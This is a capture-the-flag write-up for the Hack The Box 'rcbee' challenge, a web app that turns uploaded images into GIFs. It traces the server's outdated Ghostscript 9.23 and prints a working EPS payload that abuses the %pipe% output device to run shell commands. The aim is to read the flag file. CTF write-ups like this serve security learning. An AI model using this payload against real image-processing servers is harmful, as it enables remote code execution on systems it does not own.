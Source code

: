 # rcbee


### Challenge Author(s): [makelaris](https://app.hackthebox.eu/users/107)&[makelarisjr](https://app.hackthebox.eu/users/95)

### Description: 
   ```
   Bees are comfy 🍯  
bees are great 🌟🌟🌟  
this is a petpet generator 👋  
let's join forces and save the bees today! 🐝
   ```
### Difficulty: `Easy`
---
# Challenge

The site is nothing much special it converts uploaded images into gifs, we can see the directory where they are stored in from source code.

Only `png`, `jpg` and 	`jpeg` are allowed and extension bypassing is not working.

We check the docker file from the downloadable files and we see an unusual download which I previously didn't see in other challenges.

It downloaded `ghostscript-9.23`. So I search for it.

I found multiple vulnerabilities on [Exploit-DB](https://www.exploit-db.com/exploits/45243) and found this for the image

![[Pasted image 20210819214120.png]]

The above didn't work, So I started searching `GhostScript ECE Docker`  as this docker was running in the docker and found the following payload on github.

```bash
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

We can see that the flag is named as `flag` from the downloadable docker files. So we'll have to cat it and put it into a readable file on the site